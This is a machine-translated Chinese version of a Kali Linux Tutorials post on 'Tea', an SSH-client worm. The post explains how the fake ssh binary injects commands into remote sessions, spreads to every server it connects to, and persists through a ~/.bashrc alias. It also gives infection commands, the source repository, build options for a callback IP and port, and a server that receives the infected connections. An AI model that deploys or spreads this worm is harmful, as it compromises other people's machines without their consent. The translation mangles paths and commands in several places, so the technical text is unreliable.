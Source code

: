 # tea:SSH-客户端蠕虫

> 原文：<https://kalilinuxtutorials.com/tea-ssh-client-worm/>

[![Tea : SSH-Client Worm](img/f8e66930246945357787c5bff0faeaa5.png "Tea : SSH-Client Worm")](https://1.bp.blogspot.com/-fmNhHYILv1Q/XnEk2HNUIUI/AAAAAAAAFhc/E-cRTdZS33oo7cyh--GecPTqpZiKBWAwQCLcBGAsYHQ/s1600/TEA.png)

**Tea** 是一个用 tas 框架制作的 ssh-client 蠕虫。

它是如何工作的？

这是一个 fakessh 客户端，它操纵 tty 输入/输出来执行任意命令，并通过 ssh 连接上传自身。

为了正常工作，远程机器需要:

*   登录时显示“上次登录”消息。
*   Dd 和 stty
*   使用 bash 作为默认 shell 的目标用户。
*   运行 fakessh 二进制文件的能力。
*   可写~/。bashrc
*   感染本地机器:

**mkdir ~/。sshworm
cp ssh ~/。sshworm
别名 ssh='~/。sshworm/ssh'**

第一次执行 fakessh 时，它不会显示任何内容，将执行`**post-install.c**`中的代码，并将字符串`**alias ssh="~/.sshworm/ssh"**`写入~/。bashrc:

$ ssh
$ ssh
用法:ssh[-46 aacfg gkkmnnqsttvvxyy][-B bind _ interface]
[-B bind _ address][-c cipher _ spec][-D[bind _ address:]port]
[-E log _ file][-E escape _ char][-F config file][-I pkcs11]
[-I identity _ file][-J[user @]host[:port]][-L address]【T5

**传遍世界**

现在只要连接到某个 ssh 服务器，满足程序运行的条件，机器就会被感染，机器也会通过它被访问，等等。

**也读作-[bet with:基于 Chrome Devtools 网络面板的 Web 调试代理](https://kalilinuxtutorials.com/betwixt/)**

**tty 操作**:

当执行 fakessh 时，它将等待字符串“Last login”来启动 I/O 操作(output-hooks.c)，当收到“Last login”时，它将发送一些任意命令(inject-cmd.c)并将等待命令结果(output-hooks.c)，如果文件~/。sshworm/ssh 在远程机器上不存在，那么蠕虫会上传自己(upload.c)。

更多细节见 output-hooks.c。

**卸载**:

**$ rm -rf ~/。sshworm
$ perl -i -pe 的；别名 ssh="~/。ssh worm/ssh "；；g' ~/。bashrc
$ unalias ssh**

**编译**

我们推荐使用 musl-libc，或者其他不是 glibc 的 libc，使用 glibc 编译的二进制文件比使用 musl-libc 编译的二进制文件大 17 倍。

**获取源代码:**

**$ git 克隆–递归子模块 https://github.com/hc0d3r/tea**

**构建选项**:

| 名字 | 描述 |
| --- | --- |
| 互联网协议(Internet Protocol) | 要连接的远程 IPv4 |
| 港口 | 要连接的远程端口 |

**举例**:

**$ make CC = musl-gcc IP = my-IP v4 PORT = 1234**

**服务器**

我们制作了一个简单的服务器来处理在执行 post-install.c 中的代码时接收到的连接。

服务器机制非常简单，当一个新的连接建立时，它执行一个新的命令，并通过命令行传递连接文件描述符，因此执行的程序将能够处理连接。

**编译**

**$ cd 服务器
$ make
cc-Wall-Wextra-O3-c net . c-o net . o
cc-Wall-Wextra-O3-c replace . c-o
cc-Wall-Wextra-O3-c term . c-o term . o
cc-Wall-Wextra-O3-c main . o
cc-Wall-Wextra-O3-o server net . o replace . o term . o main . o**

**演示**

![](img/3af7753fdcf75288969b5370b0fb27d2.png)[**Download**](https://github.com/hc0d3r/tea)